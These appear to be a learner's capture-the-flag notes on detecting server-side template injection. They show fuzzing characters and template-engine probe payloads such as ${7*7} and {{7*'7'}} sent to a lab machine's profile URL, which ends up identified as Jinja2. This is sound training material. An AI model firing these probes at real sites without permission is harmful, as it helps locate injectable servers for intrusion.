 **Finding an injection point**  
- The exploit must be inserted somewhere, this is called an injection point.
- There are a few places we can look within an application, such as the URL or an input box (make sure to check for hidden inputs).

```
http://MACHINE_IP:5000/profile/<user>
```

**Fuzzing  
- Fuzzing is a technique to determine whether the server is vulnerable by sending multiple characters in hopes to interfere with the backend system.
- This can be done manually, or by an application such as BurpSuite's Intruder. However, for educational purposes, we will look at the manual process.
- Luckily for us, most template engines will use a similar character set for their "special functions" which makes it relatively quick to detect if it's vulnerable to SSTI.
```
# characters are known to be used in quite a few template engine
${{<%[%'"}}%

send 1 by 1 following each other

http://MACHINE_IP:5000/profile/${

What sequence of characters causes the application to throw an error?
{{
```


## identification

Now that we have detected what characters caused the application to error, it is time to identify what template engine is being used.

In the best case scenario, the error message will include the template engine, which marks this step complete!  

However, if this is not the case, we can use a decision tree to help us identify the template engine:
```
${7*7}
	a{*comment*}b 
	  L Smarty ${"z".join("ab")}
	  L Mako / Unknown
	
	{{7*7}} -> not vulnerable
	  L {{7*'7'}} 
	     L Jinja2 / Twig / Unknown
```


```
http://10.10.254.18:5000/profile/${7*7}     => ${7*7}
http://10.10.254.18:5000/profile/${{7*7}}   => $49

since it calculated we use ${{}}

Jinja2
```
